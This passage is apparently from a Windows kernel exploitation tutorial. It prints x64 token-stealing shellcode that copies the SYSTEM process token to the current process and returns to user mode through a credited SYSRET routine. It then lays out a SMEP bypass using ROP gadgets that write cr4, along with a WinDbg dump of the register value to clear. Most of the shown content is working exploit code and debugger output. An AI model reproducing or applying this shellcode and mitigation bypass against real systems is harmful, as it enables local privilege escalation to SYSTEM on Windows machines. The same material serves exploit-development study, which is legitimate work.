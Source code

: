 ```nasm
	sub r9, 0x2f0
	mov rcx, qword [r9 + 0x2e8]
	cmp rcx, 4
	jne GetSystemProcess

add rax, 0x358

mov r9, qword [r9 + 0x358]
mov [rax], r9

nop

  ; Kristal implementation (https://kristal-g.github.io/2021/05/08/SYSRET_Shellcode.html)
  mov rax, [gs:0x188]       ; _KPCR.Prcb.CurrentThread
  mov cx, [rax + 0x1e4]     ; KTHREAD.KernelApcDisable
  inc cx
  mov [rax + 0x1e4], cx
  mov rdx, [rax + 0x90]     ; ETHREAD.TrapFrame
  mov rcx, [rdx + 0x168]    ; ETHREAD.TrapFrame.Rip
  mov r11, [rdx + 0x178]    ; ETHREAD.TrapFrame.EFlags
  mov rsp, [rdx + 0x180]    ; ETHREAD.TrapFrame.Rsp
  mov rbp, [rdx + 0x158]    ; ETHREAD.TrapFrame.Rbp
  xor eax, eax  ;
  swapgs
  o64 sysret

ret

end
```
In our shellcode we use Kristal’s return-to-UM routine from [SYSRET_SHELLCODE](https://kristal-g.github.io/2021/05/08/SYSRET_Shellcode.html), which allows us to return to UM using the correct values and the `sysret` instruction.

We just get the **system** token and assign it to our current process.

Now we need to bypass SMEP by clearing the 20th bit in the `cr4` register.

For that, we’re going to allocate some gadgets on the stack:
```
...
0x14014f349: add al, ch ; pop rcx ; ret ; (2 found)
...
0x14007274e: mov cr4, rcx ; ret ; (2 found)
...
```

As always, we need to get the `cr4` value without the 20th bit:
```WinDbg
3: kd> .formats cr4
Evaluate expression:
  Hex:     00000000`001506f8
  Decimal: 1378040
  Decimal (unsigned) : 1378040
  Octal:   0000000000000005203370
  Binary:  00000000 00000000 00000000 00000000 00000000 00010101 00000110 11111000
  Chars:   ........
  Time:    Fri Jan 16 23:47:20 1970
  Float:   low 1.93105e-039 high 0
  Double:  6.80842e-318
```
